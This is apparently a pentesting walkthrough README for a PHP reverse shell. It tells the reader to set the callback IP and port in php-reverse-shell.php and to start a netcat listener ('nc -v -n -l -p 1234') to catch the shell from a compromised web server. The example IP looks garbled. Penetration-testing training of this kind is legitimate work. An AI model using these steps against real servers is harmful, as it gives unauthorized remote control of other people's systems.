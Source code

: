 # Walk Through
- [x] **Modify the source**
- To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:
______________
| Variable      | Default                | Personal?                       |
| ------------- |:----------------------:| -------------------------------:|
| $ip           | __170.0.0.1__          | Edit __line 7__                 |
| $port         | __1234__               | Edit __line 4__                 |
______________

- [x] **Get Ready to catch the reverse shell**
- Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):

```
$ nc -v -n -l -p 1234
```
